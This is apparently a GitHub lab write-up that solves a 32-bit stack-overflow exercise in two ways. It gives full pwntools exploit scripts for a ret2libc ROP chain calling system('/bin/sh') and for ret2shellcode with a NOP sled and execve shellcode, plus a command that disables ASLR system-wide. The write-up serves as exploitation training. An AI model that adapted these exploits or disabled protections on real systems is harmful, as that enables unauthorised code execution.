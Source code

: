 # Lab-9
Lab 9 Pwn ROPchain / ret2shellcode solution

#### Check the binary protections

![image](https://github.com/user-attachments/assets/7a9f4329-53ea-4563-86cf-22f2c5ac274e)

#### Check the architechture Type

![image](https://github.com/user-attachments/assets/8b3406d1-8db0-4942-a550-373f0727282f)


### Solution 1 : ROP Way

**Turn Off ASLR**

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

![image](https://github.com/user-attachments/assets/d9fff15f-fd0b-4a6f-95eb-927b2071d71e)


**Leak Libc Base**
![image](https://github.com/user-attachments/assets/47b611e2-a27d-4139-a2fa-ccf25b80deca)


![image](https://github.com/user-attachments/assets/e6e89228-aeed-4f36-be61-ad313cb45100)

so our libc base address we got is : `0xf7d8b000`

we will use system function in the lab9 binary present to call '/bin/sh' from libc as addresses are static wont be an issue

```py
import sys
from pwn import *

context.log_level = 'CRITICAL'
context.arch = 'i386'

binary = ELF("lab9")
libc = ELF("/usr/lib32/libc.so.6")

libc_base = 0xf7d8b000
system_addr = libc_base + libc.symbols['system']

rop = ROP(binary)


bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
rop.call(system_addr, [bin_sh_addr])

padding = b"a" * 22
exploit = rop.chain()
payload = padding + exploit + b"bbbb"  # 4 extra b's for padding adjustment here
sys.stdout.buffer.write(payload)
```

### Run it

```bash
./lab9 $(python3 solve.py)
```

![image](https://github.com/user-attachments/assets/c8763b16-1a49-4f4b-a91e-a45ed31398c7)


## Ret2Shellcode Way Solution

![image](https://github.com/user-attachments/assets/209afafb-8d9c-41f3-b554-e150efaa470b)

Since our binary has an executable stack(RWX) (indicated by Stack: Executable and NX: NX unknown) 
a ret2shellcode approach is possible. This means we can inject shellcode directly onto the stack and then use a ROP chain to jump to it.

**Find Shellcode Address via GDB**

```bash
b unsafe

run $(python3 -c 'print("A" * 100)')

```

![image](https://github.com/user-attachments/assets/d719489d-1de9-4310-ab2a-42493415b2eb)

**Craft your Exploit**

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./lab9')
context.terminal = ['alacritty', '-e']

offset = 22
shellcode_addr = 0xffffcf50 # somewhere in the nop sled
message_addr = 0xffffd6bc

gs = """
b *main
continue
"""

shellcode = f"""
push 0x41410a21
push 0x74692064
push 0x69642049

push 4
pop eax
push 1
pop ebx
mov ecx, esp
push 10
pop edx
int 0x80

push 0x4168732f
push 0x6e69622f

xor eax, eax
mov byte [esp + 6], al

mov al, 11
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
"""

payload = b'A'*offset + pack(shellcode_addr)
payload += b'\x90' * 1000
payload += asm(shellcode)

io = process([elf.path, payload])
io.interactive()
```

#### Run it

```bash
python3 solver.py
```

![image](https://github.com/user-attachments/assets/4d8cb0b9-a08e-43f6-a658-8f53d2ded955)


![image](https://github.com/user-attachments/assets/f9687a27-24e8-4230-b8a7-4aa0141db6eb)


### GG We did it

![image](https://github.com/user-attachments/assets/ad93791e-fc88-4fe8-8f8a-9eae462643ab)

